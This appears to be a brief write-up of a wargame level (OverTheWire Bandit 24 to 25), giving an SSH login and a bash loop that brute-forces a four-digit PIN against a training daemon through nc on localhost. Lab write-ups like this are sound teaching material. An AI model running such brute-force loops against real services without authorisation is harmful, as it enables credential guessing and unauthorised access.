 # Bandit Level 24 → Level 25

## 🧠 Objective
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
---

## 🧰 Tools & Commands Used
- `nc`
-  `ssh`


## 🕵️ Walkthrough

```bash
# Step 1: Connect via SSH
ssh bandit24@bandit.labs.overthewire.org -p 2220

#Step 2: Run a shell to brute-force through the pin combination
for i in {0000..9999}; do echo $i; echo <password> $i; done | nc localhost 30002
```
## 📌 Key Takeaways
- Learned about how brute forcing is implemented